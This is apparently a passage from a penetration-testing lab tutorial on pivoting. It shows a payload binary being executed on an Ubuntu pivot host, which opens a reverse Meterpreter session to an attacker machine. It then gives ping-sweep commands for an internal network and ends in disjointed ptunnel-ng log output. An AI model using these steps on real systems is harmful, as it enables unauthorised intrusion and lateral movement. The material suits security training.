 We can copy the `backupjob` binary file to the Ubuntu pivot host `over SSH` and execute it to gain a Meterpreter session.

#### Executing the Payload on the Pivot Host

```shell
ubuntu@WebServer:~$ ls

backupjob
ubuntu@WebServer:~$ chmod +x backupjob
ubuntu@WebServer:~$ ./backupjob

```

We need to make sure the Meterpreter session is successfully established upon executing the payload.

#### Meterpreter Session Establishment

```shell
[*] Sending stage (3020772 bytes) to 10.129.202.64
[*] Meterpreter session 1 opened (10.10.14.18:8080 -> 10.129.202.64:39826 ) at 2022-03-03 12:27:43 -0500
meterpreter > pwd

/home/ubuntu

```

We know that the Windows target is on the 172.16.5.0/23 network. So assuming that the firewall on the Windows target is allowing ICMP requests, we would want to perform a ping sweep on this network. We can do that using Meterpreter with the `ping_sweep` module, which will generate the ICMP traffic from the Ubuntu host to the network `172.16.5.0/23`.

#### Ping Sweep

```shell
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23

[*] Performing ping sweep for IP range 172.16.5.0/23

```

We could also perform a ping sweep using a `for loop` directly on a target pivot host that will ping any device in the network range we specify. Here are two helpful ping sweep for loop one-liners we could use for Linux-based and Windows-based pivot hosts.

#### Ping Sweep For Loop on Linux Pivot Hosts

```shell
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done

```

#### Ping Sweep For Loop Using CMD

```cmd-session
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"

```


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <[email protected]>
[inf]: (c) 2017-2019 Toni Uhlig,     <[email protected]>
[inf]: Security features by Sebastien Raveau, <[email protected]>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <[email protected]>
[inf]: (c) 2017-2019 Toni Uhlig,     <[email protected]>
[inf]: Security features by Sebastien Raveau, <[email protected]>
[inf]: Relaying packets from incoming TCP streams.
[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Received session close from remote peer.
[inf]: I/O:   0.00/  0.00 mb ICMP I/O/R:      248/      22/       0 Loss:  0.0%